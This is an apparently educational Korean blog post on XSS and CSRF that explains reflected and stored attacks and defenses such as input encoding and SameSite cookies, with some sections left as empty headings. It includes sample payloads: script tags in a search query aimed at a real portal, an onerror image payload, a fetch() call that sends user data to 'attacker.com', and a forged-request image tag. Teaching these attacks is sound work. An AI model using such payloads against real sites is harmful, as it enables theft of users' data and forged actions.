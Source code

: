 ```yaml
---
layout: post
title: '[ETC] XSS와 XSRF'
featured-img: browser/cors.png
category: [tech, etc]
summary: 웹 취약성을 노리는 XSS와 XSRF에 대해 살펴보도록 하겠습니다.
---
```


이번 포스트에서는 웹 취약성을 노리는 XSS와 XSRF(혹은 CSRF)와 공격에 대해 살펴보도록 하겠습니다.

# XSS(Cross-Site Scripting)
사이트 간 스크립팅(XSS)는 웹 애플리케이션에서 많이 나타나는 웹 취약점 공격 중 하나입니다. 웹 사이트 관리자가 아닌 다른 사람이 웹 페이지에 악성 스크립트를 삽입할 수 있는 점을 노린 공격입니다. 주로 게시판에 악성 스크립트가 담긴 글을 올리는 형태로 이루어집니다.

XSS의 공격 유형은 표준으로 정해져 있지는 않지만, 비지속적인 공격(Non-persistent XSS)과 지속적인 공격(persistent XSS)으로 구분할 수 있습니다.

## 타겟이 되는 취약점
웹 애플리케이션이 사용자로부터 입력 받은 값을 제대로 검사하지 않고 사용할 경우를 노린 공격입니다. 공격자가 사용자의 정보(쿠키, 세션 등)를 탈취하거나 비정상적인 기능을 수행하게 할 수 있습니다.

## 비지속적(Non-persistent) XSS 공격 방법
검색 엔진의 취약점을 노린 공격을 예로 들 수 있습니다. 포탈 사이트에서 문자열을 검색할 경우, 일반적으로 검색 결과 페이지에서 검색한 문자열을 그대로 다시 표시합니다. 검색한 문자열에 스크립트가 포함되어 그 스크립트가 동작하게 된다면 비지속적 XSS 공격에 성공하게 되는 것입니다.

다른 방법으로는 `https://search.shopping.naver.com/search/all?query=<script>alert('XSS')</script>`와 같이 쿼리에 스크립트가 포함된 링크에 접속하여, 이 스크립트가 접속된 페이지에서 실행 된다면 비지속적 XSS 공격이 성공하게 됩니다. 위의 링크는 `<script>alert('XSS')</script>` 검색 결과와 동일합니다.

네이버 등의 포탈에서 아래 그림과 같이 `<script>alert('XSS')</script>`를 검색(또는 `https://search.shopping.naver.com/search/all?query=<script>alert('XSS')</script>`에 접속)하여 검색 결과에 표시된 검색 문자열에 포함된 스크립트가 실행된다면, XSS 공격에 성공한 것이 됩니다.

![네이버 XSS 공격 시도](/assets/img/posts/etc/naver_non_persistent_xss.png)

한번의 검색으로 한번의 XSS 공격을 할 수 있기 때문에 비지속적 XSS입니다. 비지속적 XSS는 검색 문자열을 그대로 화면에 다시 표시되는 점을 노린 공격이기 때문에 반사(Reflected) XSS라고도 불립니다.

## 지속적(Persistent) XSS 공격 방법
지속적 XSS 공격은 비지속적 XSS 공격보다 더 치명적인 공격 방법입니다. 게시판을 예로 들면, 공격자가 게시판 글쓰기 통해서 스크립트를 포함한 게시글을 작성한 후 서버에 저장 합니다. 다른 사용자가 그 게시글을 읽을 때 게시글에 포함된 스크립트가 실행되면서 XSS 공격이 성공하게 됩니다. 게시글에 그 글을 읽는 사용자의 이름과 이메일 등의 개인 정보를 공격자에게 전송하는 스크립트가 포함되어 있다고 하면, 게시글을 읽는 모든 사람의 개인 정보가 유출되게 됩니다.

예를 들어, 사용자 정보가 window 객체의 user 필드에 저장되어 있다고 하면, 아래와 같이 공격자가 스크립트를 포함한 게시글을 작성합니다.

```none
안녕하세요.

<script>
  fetch('http://attacker.com/user', {
    method: 'POST',
    body: JSON.stringify(window.user)
  });
</script>

반갑습니다.
```

`<script>` 태그는 화면에 노출되지 않기 때문에 사용자는 자신의 개인 정보가 유출되는지 모른체 피해를 입게 됩니다.

## 대응 방법
XSS 공격을 막기 위해서는 페이지에서 공격자가 입력한 스크립트를 실행하지 못하게 해야 합니다. 스크립트를 실행하지 못하게 하려면, 공격자의 스크립트 입력을 막거나 브라우저가 스크립트를 실행하지 못하게 공격자의 스크립트 값을 변경해야 합니다.

### 입력 값 제한
스크립트를 입력하지 못하게 하는 방법으로 XSS 공격을 막을 수 있습니다. 하지만 `<script>` 태그 뿐만 아니라 아래 코드와 같이 이벤트 핸들러를 사용하는 방법으로 스크립트를 실행 할 수 있습니다.

```html
<img src="#" onerror="alert('XSS')">
```

모든 케이스에 대응해서 입력 값을 제한하는 것은 쉽지 않기 때문에 아래에서 이야기 할 입력 값 치환 부분이 XSS 공격을 방어하는데 더 효과적입니다.

### 입력 값 치환
XSS 공격은 HTML 태그를 사용하기 때문에 HTML 태그에 사용되는 `<`와 `>` 문자열을 인코딩한 `&lt`, `&gt`로 서버에 저장하거나 페이지를 그릴 때 인코딩한 값으로 화면에 그리는 방법입니다. 이렇게 인코딩이 되면 브라우저는 일반 문자열로 인식하여 페이지에 `<script></script>`로 노출되어 스크립트가 실행되지 않습니다.

# XSRF(Crose-Site Request Forgery)
사이트 간 요청 위조(XSRF 또는 CSRF라고 합니다.)는 사용자가 자신의 의지와 무관하게 공격자가 의도한 행위(수정, 삭제, 등록 등)를 특정 웹사이트에 요청하게 하는 공격입니다.

## 타겟이 되는 취약점
사이트 간 요청 위조는 특정 웹 사이트가 사용자의 웹 브라우저를 신뢰하는 상태를 노린 공격입니다. 사용자가 웹사이트에 로그인한 상태에서 사이트간 요청 위조 공격 코드가 삽입된 페이지를 열면, 공격 대상이 되는 웹사이트는 위조된 공격 명령이 믿을 수 있는 사용자로부터 발송된 것으로 판단하게 되어 공격에 노출됩니다.

## 공격 방법
XSRF 공격 과정은 아래와 같습니다.

1. 이용자는 웹사이트에 로그인하여 정상적인 쿠키를 발급받는다.
2. 공격자는 링크(예를 들어, `http://www.geocities.com/attacker`와 같은)를 이메일이나 게시판 등의 경로를 통해 이용자에게 전달한다.
3. 위의 링크의 HTML 페이지는 `<img src= "https://travel.service.com/travel_update?.src=Korea&.dst=Hell">` 같은 이미지 태그를 가집니다. 이 링크는 출발지와 도착지를 등록하기 위한 링크인데, 그 중 도착지 정보를 변조한 링크입니다.
4. 이용자가 공격용 페이지를 열면, 부라우저는 이미지 파일을 받아오기 위해 공격용 URL을 실행합니다.
5. 이용자의 승인이나 인지 없이 출발지와 도착지가 등록되어 공격이 완료됩니다.

 해당 서비스 페이지는 단순히 쿠키를 통해 본인확인이 이루어지기 때문에 XSRF 공격이 가능하게 됩니다.

## 공격 예제
XSRF 공격이 이루어지는 예제를 만들어 보도록 하겠습니다.

## 대응 방법
크롬 80버전 부터 새로운 쿠키 정책이 적용되어 Cookie의 SameSite 속성의 기본값이 Lax로 변경 되었습니다.

Referer 체크
GET/POST 구분
Security Token 사용
CORS

# XSS와 XSRF의 차이

# 부록

## SameSite Cookie

#### 참고
- [https://ko.wikipedia.org/wiki/사이트_간_스크립팅](https://ko.wikipedia.org/wiki/사이트_간_스크립팅)
- [https://ko.wikipedia.org/wiki/사이트_간_요청_위조](https://ko.wikipedia.org/wiki/사이트_간_요청_위조)
- [https://ohgyun.com/543](https://ohgyun.com/543)
- [https://rednooby.tistory.com/22](https://rednooby.tistory.com/22)
- [https://3rd-big.tistory.com/23](https://3rd-big.tistory.com/23)
- [https://itstory.tk/entry/CSRF-공격이란-그리고-CSRF-방어-방법](https://itstory.tk/entry/CSRF-공격이란-그리고-CSRF-방어-방법)
- [https://www.sickyourcoding.com/forQuiz/csrfintro](https://www.sickyourcoding.com/forQuiz/csrfintro)
- [https://swk3169.tistory.com/24](https://swk3169.tistory.com/24)
- [https://docs.microsoft.com/ko-kr/azure/active-directory/develop/howto-handle-samesite-cookie-changes-chrome-browser?tabs=dotnet](https://docs.microsoft.com/ko-kr/azure/active-directory/develop/howto-handle-samesite-cookie-changes-chrome-browser?tabs=dotnet)
- [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite)
- [https://ifuwanna.tistory.com/223](https://ifuwanna.tistory.com/223)
- [http://blog.plura.io/?p=7614](http://blog.plura.io/?p=7614)
- [https://swk3169.tistory.com/23](https://swk3169.tistory.com/23)